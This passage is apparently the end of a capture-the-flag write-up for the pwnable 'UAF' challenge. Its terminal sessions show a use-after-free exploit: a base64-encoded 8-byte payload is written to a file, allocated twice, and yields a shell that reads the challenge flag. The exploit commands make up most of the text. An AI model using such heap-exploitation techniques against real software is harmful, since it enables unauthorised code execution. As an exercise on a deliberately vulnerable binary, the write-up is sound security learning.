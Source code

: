 The solution is simple, allocate twice:
```bash
~/pwnable/UAF$ ./uaf 8 ./payload 
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ 
```
And theres our shell!

Lets try it again in pwnable's server:
```bash
~/pwnable/UAF$ base64 ./payload 
aBVAAAAAAAA=

uaf@pwnable:~$ mkdir /tmp/aaabbb
uaf@pwnable:~$ echo aBVAAAAAAAA=
aBVAAAAAAAA=
uaf@pwnable:~$ echo aBVAAAAAAAA= | base64 -d > /tmp/aaabbb/payload
uaf@pwnable:~$ cat /tmp/aaabbb/payload 
h@uaf@pwnable:~$ ./uaf 8 /tmp/aaabbb/payload
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat ./flag	
yay_f1ag_aft3r_pwning
```
Had fun and learned a lot solving this and i hope this has been useful for someone.
Source for malloc internals: https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=994a23248e258501979138f3b07785045a60e69f;hb=HEAD

